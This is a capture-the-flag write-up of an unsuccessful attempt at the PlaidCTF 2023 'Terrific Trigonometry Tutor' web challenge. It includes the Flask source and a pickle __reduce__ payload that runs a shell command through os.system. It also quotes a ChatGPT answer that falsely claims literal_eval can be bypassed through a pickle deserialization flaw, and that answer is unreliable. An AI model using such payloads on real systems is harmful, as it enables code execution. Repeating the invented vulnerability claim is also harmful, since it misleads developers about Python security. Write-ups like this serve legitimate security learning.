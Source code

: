# Terrific Trigonometry Tutor

## TTT

### Overview

- 69 Points / 99 Solves

- Overall difficulty for me (From 1-10 stars): ★★★★★★★★★★

### Background

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416144757.png)

### Enumeration

In this challenge, there's a web application:

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416144833.png)

Which allows you to do some trigonometry calculations.

**We can also view the source code:**
```shell
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:08(HKT)]
└> file ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar    
tttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar: POSIX tar archive
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:14(HKT)]
└> tar -xf ttt.0317e9c2446d934d03676d0d506d7a77bbef1f2b7f500556cd29c2af16caae8d.tar
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:19(HKT)]
└> ls -lah chal  
total 24K
drwxr-xr-x 4 siunam nam 4.0K Apr 15 17:55 .
drwxr-xr-x 3 siunam nam 4.0K Apr 16 14:37 ..
-rw-r--r-- 1 siunam nam  463 Apr 15 04:16 Dockerfile
drwxr-xr-x 3 siunam nam 4.0K Apr 15 04:05 static
drwxr-xr-x 2 siunam nam 4.0K Apr 15 04:05 templates
-rw-r--r-- 1 siunam nam 2.2K Apr 16 14:42 trig.py
```

**trig.py:**
```py
from flask import Flask, url_for, render_template, request
from ast import literal_eval
import sympy

app = Flask(__name__)

@app.route("/")
def index():
    return render_template('index.html')


regular_operators = {
    'add': lambda x, y: x + y,
    'sub': lambda x, y: x - y,
    'mul': lambda x, y: x * y,
    'div': lambda x, y: x / y,
    'pow': lambda x, y: x ** y,
}

trig_operators = {
    'sin': sympy.sin,
    'cos': sympy.cos,
    'tan': sympy.tan,
    'cot': sympy.cot,
    'sec': sympy.sec,
    'csc': sympy.csc,
    'asin': sympy.asin,
    'acos': sympy.acos,
    'atan': sympy.atan,
    'acot': sympy.acot,
    'asec': sympy.asec,
    'acsc': sympy.acsc,
}


def postfix_calculator(inp):
    stack = []
    for (ty, val) in inp:
        if ty == 'num':
            stack.append(literal_eval(val))
        elif ty == 'var':
            stack.append(sympy.Symbol(val))
        elif ty == 'op':
            if val in regular_operators:
                a = stack.pop()
                b = stack.pop()
                stack.append(regular_operators[val](b, a))
            elif val in trig_operators:
                a = stack.pop()
                stack.append(trig_operators[val](a))
            else:
                raise ValueError("Invalid operator")
    return stack


@app.post("/compute")
def compute():
    try:
        expr = postfix_calculator(request.get_json())
        if len(expr) == 1:
            return sympy.latex(expr[0]) + r'\\=\\' + sympy.latex(sympy.simplify(expr[0]))
        else:
            return r'\quad{}'.join(map(sympy.latex, expr)) + r'\\=\\\cdots'
    except Exception as e:
        return "invalid expression"
```

In this Flask web application, there's a POST route called `/compute`.

This route needs a JSON data, and perform some trigonometry calculations.

**Right off the bat, I saw this:**
```py
if ty == 'num':
    stack.append(literal_eval(val))
```

`literal_eval`??

**After some Googling, I found this [StackOverflow post](https://stackoverflow.com/questions/15197673/using-pythons-eval-vs-ast-literal-eval):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416145220.png)

Hmm... Seems no luck to gain RCE (Remote Code Execution), just like normal `eval`.

**However, I decided to ask ChatGPT to bypass `literal_eval`:**

```
Prompt: Can you give an example of how to bypass the security measures of literal_eval?

Answer: While it is difficult to craft input that can bypass the security measures of literal_eval, there have been vulnerabilities in the past that allowed for code execution via literal_eval. One such example is the "pickle deserialization" vulnerability, which affects Python versions before 3.8.3.

In this vulnerability, an attacker can craft a malicious pickle object that, when deserialized using literal_eval, executes arbitrary code on the system. Here's an example:

import pickle

class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ("echo 'exploited'",))

exploit = pickle.dumps(Exploit())

# This input executes the code in the pickle object
output = eval(pickle.loads(exploit))
In this example, we define a class Exploit that defines the __reduce__ method. This method is called when the object is pickled, and it returns a tuple that specifies the function to call and its arguments. In this case, we're returning the os.system function with the argument "echo 'exploited'", which will execute the echo command when literal_eval is called on the deserialized object.

When we pickle the Exploit object and pass it to literal_eval, the __reduce__ method is called and the os.system function is executed, which runs the echo command and outputs the message "exploited".

It's worth noting that this vulnerability has been patched in Python 3.8.3 and later versions, so it's important to keep your Python installation up-to-date to prevent these types of attacks. Additionally, it's important to sanitize and validate any input that is passed to literal_eval, or to use a safer alternative if possible.
```

Wait, it's vulnerable to pickle deserialization??

Let's build the pickle payload!

```py
#!/usr/bin/env python3
import pickle

def main():
    class Exploit:
        def __reduce__(self):
            import os
            return (os.system, ("cat flag",))

    exploit = pickle.dumps(Exploit())
    print(f'[*] Payload: {exploit}')

if __name__ == '__main__':
    main()
```

```py
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:49:25(HKT)]
└> python3 test.py 
[*] Payload: b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x08cat flag\x94\x85\x94R\x94.'
```

**Then, do local testing for that payload:**
```py
[...]
if ty == 'num':
    stack.append(literal_eval(val))
    literal_eval("__import__('pickle').loads(b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x08cat flag\x94\x85\x94R\x94.')")
[...]
if __name__ == '__main__':
    app.run(debug=True)
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/PlaidCTF-2023/images/Pasted%20image%2020230416145616.png)

```shell
┌[siunam♥earth]-(~/ctf/PlaidCTF-2023/misc/Terrific-Trigonometry-Tutor/TTT)-[2023.04.16|14:38:25(HKT)]
└> python3 chal/trig.py
[...]
1
127.0.0.1 - - [16/Apr/2023 14:56:05] "POST /compute HTTP/1.1" 200 -
```

Nope.

However, I tried to find other vulnerabilities like LaTeX injection, but still no luck...